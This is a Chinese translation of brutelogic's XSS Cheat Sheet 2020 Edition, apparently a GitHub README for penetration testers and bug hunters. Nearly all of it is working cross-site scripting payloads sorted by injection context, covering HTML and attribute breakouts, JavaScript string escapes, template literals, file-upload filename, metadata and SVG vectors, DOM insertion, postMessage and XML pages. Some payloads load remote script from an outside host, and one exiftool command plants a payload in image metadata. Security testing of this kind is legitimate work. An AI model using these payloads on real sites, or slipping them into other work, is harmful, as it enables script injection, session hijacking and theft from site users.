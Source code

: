 # XSS_Cheat_Sheet_2020_Edition

## 简介
xss漏洞模糊测试有效载荷的最佳集合 2020版 <br>
该备忘清单可用于，漏洞猎人，安全分析，渗透测试人员，查找web应用的跨站点脚本漏洞 <br>
本备忘录翻译自国外的XSS_Cheat_Sheet_2020_Edition.pdf议题，源文件可在本项目内直接下载 <br>

## 摘要
**1.基本** <br>
**2.高级** <br>
**3.绕过** <br>
**4.利用** <br>
**5.额外** <br>
**6.枚举** <br>

## 内容
**1.HTML Injection （代码注入）** <br>
当输入的payload，被插入到HTML标签或外部标签的属性值内时，则使用下面的方法进行测试，如果输入的内容被插入到了HTML注释，则在payload之前添加"->"
```
<svg onload=alert(1)>
"><svg onload=alert(1)>
```
**2.HTML Injection – Tag Block Breakout（HTML注入–标签闭合）** <br>
当输入的payload，被插入到以下标签的内部时，使用以下标签：<br>
`<title> <style> <script> <textarea> <noscript> <pre> <xmp> <iframe>` （`</tag>`为相应的html标签）。
```
</tag><svg onload=alert(1)>
"></tag><svg onload=alert(1)>
```
**3.HTML Injection - Inline （HTML注入-内联标签）** <br>
当输入的payload，被插入到HTML标签的属性值内，但该标签不能以大于号（>）进行闭合。<br>
```
"onmouseover=alert(1) //
"autofocus onfocus=alert(1) //
```
**4.HTML Injection - Source（HTML注入-源）** <br>
当输入的payload，被作为以下HTML标签属性的值使用时：`href`，`src`，`data`或`action`。payload中的`src`属性值可以是一个URL或者`"data:,alert(1)"`。
```
javascript:alert(1)
```
**5.Javascript Injection (javascript注入)** <br>
当输入的payload，被插入到javascript标签块中的字符串定界值中时使用。
```
'-alert(1)-'
'/alert(1)//
```
**6.Javascript Injection - Escape Bypass (javascript注入-绕过)** <br>
当输入的payload，被插入到javascript标签块字符串定界值中，但具有单引号，可以尝试使用反斜杠注释进行绕过。
```
\'/alert(1)//
```
**7.Javascript Injection – Script Breakout (javascript注入-脚本突破)** <br>
当输入的payload，被插入到javascript标签块中的任何位置时使用。
```
</script><svg onload=alert(1)>
```
**8.Javascript Injection - Logical Block (javscript注入-逻辑代码块)** <br>
当输入的payload，被插入到javascript标签块时，使用第一个或第二个payload，该值如果位于字符串分隔值或在单个逻辑代码块（如函数或条件（if，else，等等中）。 如果需要引用转义反斜杠，请使用第3个payload。
```
'}alert(1);{'
'}alert(1)%0A{'
\'}alert(1);{//
```
**9.Javascript Injection - Quoteless (javscript注入-无变量名)** <br>

当输入的payload在同一行javascript代码中有多次反射时使用。<br>
第一个payload适用于简单的javascript变量，第二个payload适用于非嵌套的javascript对象。 <br>
```
/alert(1)//\
/alert(1)}//\
```
**10.Javascript Context - Placeholder Injection in Template Literal (javascript注入-模板文字中的占位符注入)** <br>
当输入的payload被插入到反引号```（``）```分隔的字符串内或模板引擎中时使用。<br>
```
${alert(1)}
```
**11.Multi Reflection HTML Injection - Double Reflection (Single Input) (HTML注入多重反射-双重反射（单输入）)** <br>
payload用于利用同一页面上的多次反射。<br>
```
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
```
**12.Multi Reflection i HTML Injection - Triple Reflection (Single Input) (HTML注入多重反射-三次反射（单输入）)** <br>
payload用于利用同一页面上的多次反射。<br>
```
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```
**13.Multi Input Reflections HTML Injection - Double & Triple (HTML注入多输入反射-两次和三次)** <br>
payload用于利用同一页面上的多个输入反射。在HPP（HTTP参数污染）其中存在重复参数的反射。 第三个payload利用相同参数的逗号分隔进行反射。<br>
```
p=<svg/1='&q='onload=alert(1)>
p=<svg 1='&q='onload='/*&r=*/alert(1)'>
q=<script/&q=/src=data:&q=alert(1)>
```
**14.File Upload Injection – Filename (文件上传注入-文件名)** <br>
payload用于用户上传的文件名返回在目标页面的某处时使用。
```
"><svg onload=alert(1)>.gif
```
**15.File Upload Injection – Metadata (文件上传注入-元数据)** <br>
payload用于，当上传文件的元数据返回在目标页面中的某处时使用。 它可以使用命令行exiftool（"$"是终端提示），并且可以设置任何元数据字段。
```
$ exiftool -Artist='"><svg onload=alert(1)>' xss.jpeg
```
**16.File Upload Injection – SVG File (文件上传注入-SVG文件)** <br>
上传图像文件时，用于在目标上创建存储的XSS payload。 将以下内容另存为"xss.svg"文件 <br>
```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```
**17.DOM Insert Injection (DOM 注入)** <br>
当注入的payload作为有效标记插入DOM中，而不是反映在源代码中时，用于测试XSS。<br>
它适用于html标签和其他payload无效的情况下使用。<br>
```
<img src=1 onerror=alert(1)>
<iframe src=javascript:alert(1)>
<details open ontoggle=alert(1)>
<svg><svg onload=alert(1)>
```
**18.DOM Insert Injection – Resource Request (DOM 注入-资源请求)** <br>
当网站调用本地的javascript代码发送请求，并且将请求的结果插入到页面中时，如果攻击者可以控制该URL。则可以使用以下payload进行测试 <br>
```
data:text/html,<img src=1 onerror=alert(1)>
data:text/html,<iframe src=javascript:alert(1)>
```
**19.PHP Self URL Injection (PHP self URL注入)** <br>
当网站服务器端PHP代码，将当前URL当作HTML表单属性值进行获取。payload在斜杠（/）在php扩展名和查询部分的开始（？）之间插入。<br>
```
https://brutelogic.com.br/xss.php/"><svg onload=alert(1)>?a=reader
```
**20.Markdown Vector (Markdown 组件测试)**  <br>
在网站允许某些markdown标记，比如：输入的文本框，注释部分等中使用payload。点击触发。<br>
```
[clickme](javascript:alert`1`)
```
**21.Script Injection - No Closing Tag (脚本注入-没有结束标记)** <br>
payload在反射后的javascript代码中有结束脚本标签（</script>）时使用。 <br>
```
<script src=data:,alert(1)>
<script src=//brutelogic.com.br/1.js>
```
**22.Javascript postMessage() DOM Injection (with Iframe) (Javascript postMessage() DOM注入（带有Iframe）)**
在JavaScript代码中有"message"事件监听器(如"window.addEventListener('message',...)")时使用该payload，并且服务器端没有检查来源。 如果能够对目标进行请求伪造（根据http请求 X-Frame Options标头）。 则另存一个HTML文件（或者使用data:text/html，以提供TARGET_URL和INJECTION（xss payload）进行测试。<br>
```
<iframe src=TARGET_URL onload="frames[0].postMessage('INJECTION','*')">
```
**23.XML-Based XSS (基于XML的XSS)**
该payload用于在XML页面(内容类型为text/xml或application/xml）中进行测试。如果输入点位于注释部分，则在payload前添加"->"；如果输入位于CDATA部分，则将"->"添加payload。<br>
```
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>
<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="//brutelogic.com.br/1.js"/>
```

## 致谢
**英文议题作者：** <br>
@brutelogic <br>
<br>
**中文翻译团队：**<br>
@farmsec <br>
@farmsec_alice <br>
@farmsec_lancet <br>
@farmsec_answer <br>


